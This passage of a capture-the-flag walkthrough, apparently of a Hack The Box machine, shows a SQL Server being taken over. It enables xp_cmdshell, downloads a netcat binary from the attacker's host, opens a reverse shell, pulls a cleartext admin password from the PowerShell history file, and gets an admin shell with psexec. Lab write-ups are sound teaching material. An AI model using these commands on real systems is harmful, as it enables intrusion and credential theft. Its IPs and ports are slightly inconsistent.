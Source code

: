 ![](9.png)

The next two command enables `xp_cmdshell`.

![](10.png)

Now we can run system commands:`xp_cmdshell "whoami"`

![](11.png)

Great! The next things to do is get a reverse shell. To do that, we need to upload a static netcat binary to the target, you can find one [here](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------), then send an interactive `cmd.exe` process to our listening port.

Move the `nc64.exe` binary to the current working directory and setup a http server with python: `sudo python3 -m http.server 80`

On another terminal, setup a netcat listener : `nc -lvnp 9001`.

With the following command, upload the binary to the target. `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget
http://10.10.14.121/nc64.exe -outfile nc64.exe"`

![](12.png)

Now execute this following command to get a shell: `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.9 443"`

![](13.png)

Great! We got a reverse shell.

# **Privilege Escalation**

Let's check our privileges on the machine by running `whoami /priv`

![](14.png)

We see that we have the `SeImpersonatePrivilege` which is vulnerable to [Juicy-Potato](https://github.com/ohpe/juicy-potato).

Before trying to the exploit, let's check the PowerShell history file, which is the equivalent of .bash_history for Linux systems.  The file `ConsoleHost_history.txt` can be located in the directory `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

![](15.png)

We found a clear text password for Administrator which is `MEGACORP_4dm1n!!`. We can now use the tool `psexec.py` again from the `Impacket suite` to get a shell as the administrator: `python3 psexec.py administrator@{TARGET_IP}`

![](16.png)

